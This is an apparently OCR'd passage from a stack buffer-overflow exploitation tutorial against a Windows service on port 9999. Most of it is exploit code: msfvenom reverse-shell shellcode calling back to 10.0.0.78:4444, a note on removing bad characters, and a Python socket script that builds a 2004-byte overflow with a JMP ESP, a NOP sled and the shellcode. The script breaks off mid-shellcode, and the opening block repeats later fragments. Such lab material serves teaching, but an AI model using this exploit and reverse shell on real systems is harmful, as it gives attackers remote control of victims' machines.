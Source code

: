 ```python
shellcode += "\xec\x63\xaf\xf5\xcb\x9b\xda\x0f\x28\x21\xdd\xd4"
shellcode += "\x52\xfd\x68\xce\xf5\x76\xca\x2a\x07\x5a\x8d\xb9"
shellcode += "\x0b\x17\xd9\xe5\x0f\xa6\x0e\x9e\x34\x23\xb1\x70"
shellcode += "\xbd\x77\x96\x54\xe5\x2c\xb7\xcd\x43\x82\xc8\x0d"
shellcode += "\x2c\x7b\x6d\x46\xc1\x68\x1c\x05\x8e\x5d\x2d\xb5"
shellcode += "\x4e\xca\x26\xc6\x7c\x55\x9d\x40\xcd\x1e\x3b\x97"
shellcode += "\x32\x35\xfb\x07\xcd\xb6\xfc\x0e\x0a\xe2\xac\x38"
shellcode += "\xbb\x8b\x26\xb8\x44\x5e\xe8\xe8\xea\x31\x49\x58"
shellcode += "\x4b\xe2\x21\xb2\x44\xdd\x52\xbd\x8e\x76\xf8\x44"
shellcode += "\x59\x73\xfd\x46\xd7\xeb\xff\x46\xf6\xb7\x76\xa0"
shellcode += "\x92\x57\xdf\x7b\x0b\xc1\x7a\xf7\xaa\x0e\x51\x72"
shellcode += "\xec\x85\x56\x83\xa3\x6d\x12\x97\x54\x9e\x69\xc5"
shellcode += "\xf3\xa1\x47\x61\x9f\x30\x0c\x71\xd6\x28\x9b\x26"
shellcode += "\xbf\x9f\xd2\xa2\x2d\xb9\x4c\xd0\xaf\x5f\xb6\x50"
shellcode += "\x74\x9c\x39\x59\xf9\x98\x1d\x49\xc7\x21\x1a\x3d"
shellcode += "\x97\x77\xf4\xeb\x51\x2e\xb6\x45\x08\x9d\x10\x01"
shellcode += "\xcd\xed\xa2\x57\xd2\x3b\x55\xb7\x63\x92\x20\xc8"
shellcode += "\x4c\x72\xa5\xb1\xb0\xe2\x4a\x68\x71\x12\x01\x30"
shellcode += "\xd0\xbb\xcc\xa1\x60\xa6\xee\x1c\xa6\xdf\x6c\x94"
shellcode += "\x57\x24\x6c\xdd\x52\x60\x2a\x0e\x2f\xf9\xdf\x30"
shellcode += "\x9c\xfa\xf5"
```
When generating shellcode, you need to remove bad characters from the generation process, this can be done first by discovering any bad characters that the application may have, 0x00 is always a bad character, it's a null byte.

## Putting it all together

The order for our code now works like so:

- buffer of "A" * 2004
- JMP ESP instruction 
- NOPSLED
- shellcode

```python
#!/usr/bin/python

import socket

victim_host = "10.0.0.213"
port = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.78 LPORT=4444 -b "\x00" -v shellcode -f c -f python

shellcode =  "" # shellcode without \x00 as a bad character
shellcode += "\xbb\xe8\x37\x7b\xfa\xda\xd1\xd9\x74\x24\xf4\x5a"
shellcode += "\x2b\xc9\xb1\x52\x83\xc2\x04\x31\x5a\x0e\x03\xb2"
shellcode += "\x39\x99\x0f\xbe\xae\xdf\xf0\x3e\x2f\x80\x79\xdb"
shellcode += "\x1e\x80\x1e\xa8\x31\x30\x54\xfc\xbd\xbb\x38\x14"
shellcode += "\x35\xc9\x94\x1b\xfe\x64\xc3\x12\xff\xd5\x37\x35"
shellcode += "\x83\x27\x64\x95\xba\xe7\x79\xd4\xfb\x1a\x73\x84"
shellcode += "\x54\x50\x26\x38\xd0\x2c\xfb\xb3\xaa\xa1\x7b\x20"
shellcode += "\x7a\xc3\xaa\xf7\xf0\x9a\x6c\xf6\xd5\x96\x24\xe0"
shellcode += "\x3a\x92\xff\x9b\x89\x68\xfe\x4d\xc0\x91\xad\xb0"
shellcode += "\xec\x63\xaf\xf5\xcb\x9b\xda\x0f\x28\x21\xdd\xd4"
shellcode += "\x52\xfd\x68\xce\xf5\x76\xca\x2a\x07\x5a\x8d\xb9"
shellcode += "\x0b\x17\xd9\xe5\x0f\xa6\x0e\x9e\x34\x23\xb1\x70"
shellcode += "\xbd\x77\x96\x54\xe5\x2c\xb7\xcd\x43\x82\xc8\x0d"
shellcode += "\x2c\x7b\x6d\x46\xc1\x68\x1c\x05\x8e\x5d\x2d\xb5"
shellcode += "\x4e\xca\x26\xc6\x7c\x55\x9d\x40\xcd\x1e\x3b\x97"
shellcode += "\x32\x35\xfb\x07\xcd\xb6\xfc\x0e\x0a\xe2\xac\x38"
shellcode += "\xbb\x8b\x26\xb8\x44\x5e\xe8\xe8\xea\x31\x49\x58"
```